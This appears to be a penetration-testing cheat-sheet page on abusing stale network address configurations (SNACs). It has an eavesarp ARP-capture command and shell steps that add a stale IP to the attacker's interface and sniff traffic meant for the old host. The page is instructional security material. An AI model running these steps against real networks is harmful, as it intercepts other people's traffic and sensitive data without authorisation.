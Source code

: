 # SNACs Abuse

* [https://www.blackhillsinfosec.com/analyzing-arp-to-discover-exploit-stale-network-address-configurations/](https://www.blackhillsinfosec.com/analyzing-arp-to-discover-exploit-stale-network-address-configurations/)
* [https://github.com/arch4ngel/eavesarp](https://github.com/arch4ngel/eavesarp)

Actively analyze ARP traffic and hunt for SNACs (Stale Network Address Configurations):

```
$ sudo python3 eavesarp.py capture -i eth0 -ar -dr [--blacklist 192.168.1.11]
```

If a SNAC if found (can be detected, for example, when a host has moved from one IP to another and its DNS A record not matching its DNS PTR record anymore) so that some application in the network is still trying to send sensitive data to the *stale* IP address (because it may simply be hard-coded in the app), an adversary can set an alias for their interface pretending to be that host with the *stale* IP and collect all the traffic intended for it:

```
 # Check again with tcpdump
$ sudo tcpdump -nvv -i eth0 host <STALE_IP> and arp
 # Abuse it!
$ sudo ip addr add <STALE_IP>/24 dev eth0
$ sudo tcpdump -nvv -i eth0 host <STALE_IP>
```
